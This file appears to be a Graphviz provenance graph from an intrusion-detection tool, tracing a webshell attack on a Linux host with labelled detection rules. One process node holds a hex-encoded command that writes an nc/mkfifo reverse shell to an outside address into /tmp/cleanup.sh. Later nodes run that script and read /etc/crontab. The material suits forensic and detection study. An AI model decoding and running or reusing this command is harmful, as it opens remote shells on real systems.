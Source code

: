 digraph graph1 {
node [shape = Mrecord];
table179 [label = "{<head>processname: cat | pid: 1380 | cmdline: cat /etc/crontab | starttime: 1618986622507000000 | enddtime: -1 | label: PT9 Execute any command.(webshell) timestamp: 1653025665015 | label: PT8 The uploaded file is read.(webshell) timestamp: 1653025665015 | label: PT10 Shell command.(rat) timestamp: 1618986622507000000}", color = red];
table157 [shape = record, label = "{<head>filename: /tmp/cleanup.sh | label: FT9 The File is written by webshell. timestamp: 1653025665015}"];
table162 [label = "{<head>processname: sh | pid: 1368 | cmdline: /bin/sh -c 6364202f7661722f7777772f68746d6c3b6563686f20276d6b6669666f202f746d702f746262616a6f3b206e63203136392e3235342e3132382e32203838383820303c2f746d702f746262616a6f207c202f62696e2f7368203e2f746d702f746262616a6f20323e26313b726d202f746d702f746262616a6f273e3e2f746d702f636c65616e75702e73683b6563686f205b535d3b7077643b6563686f205b455d | starttime: 1618986281293000000 | enddtime: 1618986281293000000 | label: PT7 The uploaded file is mmap.(webshell) timestamp: 1618986121320000000 | label: PT9 Execute any command.(webshell) timestamp: 1653025665015 | label: PT10 Shell command.(rat) timestamp: 1618986281293000000}"];
table162 -> table157[label = "action: 1  PT9->FT9"];
table179 -> table157[label = "action: 0  FT9->PT8"];
node [shape = record];
table172 [label = "{<head>processname: sh | pid: 1378 | cmdline: /bin/sh | starttime: 1618986602273000000 | enddtime: -1 | uuid: 1378}"];
table172 -> table179[label = "event: Create process"];
node [shape = record];
table165 [label = "{<head>processname: sh | pid: 1374 | cmdline: /bin/sh /tmp/cleanup.sh | starttime: 1618986602181000000 | enddtime: -1 | uuid: 1374}"];
table165 -> table172[label = "event: Create process"];
node [shape = record];
table163 [label = "{<head>processname: sh | pid: 1373 | cmdline: /bin/sh -c /tmp/cleanup.sh | starttime: 1618986602181000000 | enddtime: -1 | uuid: 1373}"];
table163 -> table165[label = "event: Create process"];
}
